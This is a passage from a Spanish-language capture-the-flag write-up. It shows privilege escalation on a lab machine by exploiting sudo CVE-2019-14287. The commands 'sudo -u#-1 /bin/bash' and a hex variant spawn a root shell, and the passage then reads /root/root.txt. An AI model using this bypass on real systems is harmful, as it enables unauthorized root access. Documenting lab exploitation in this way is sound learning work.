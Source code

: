 La sintaxis exacta en sudoers puede variar, y a veces la representación es confusa.


## Paso 15 — Exploit local de sudo (CVE-2019-14287)

Contexto: Comprobamos la versión de sudo (sudo --version → Sudo version 1.8.21p2) y sudo -l muestra la regla (ALL, !root) /bin/bash. 

Esa combinación es susceptible al bypass documentado en CVE-2019-14287 en ramas 1.8.x previas a 1.8.28.

<img width="399" height="131" alt="version vulnerable" src="https://github.com/user-attachments/assets/2bab6dff-91a0-4e10-830b-27657052f800" />


<img width="811" height="250" alt="busqueda en goolge exploiit" src="https://github.com/user-attachments/assets/7f840489-3110-4795-ac77-d8429a544c1a" />



## Paso 16 — Escalado a root usando bypass numérico y obtención de la flag root

Acción realizada: Aprovechando la vulnerabilidad CVE-2019-14287 (bypass numérico de sudo) se ejecutó un shell /bin/bash como root usando la forma alternativa de -u.

Comando ejecutado (ejemplo que funcionó):

### bypass numérico que fuerza ejecución como root
sudo -u#-1 /bin/bash

### o, equivalente mostrado en la captura:
sudo -u \#\$((0xffffffff)) /bin/bash

Verificación y obtención de la flag root:

whoami    output: root
cat /root/root.txt

Resultado (flag de root):

<img width="892" height="325" alt="segunda flag escalada de privilegios" src="https://github.com/user-attachments/assets/4ca5757b-03a2-4e34-ad4e-a87ef9bb17ca" />


Interpretación y nota final:

La máquina fue rooteada con éxito usando el bypass de sudo. Se obtuvo la flag de root y se comprobó la escalada con whoami.

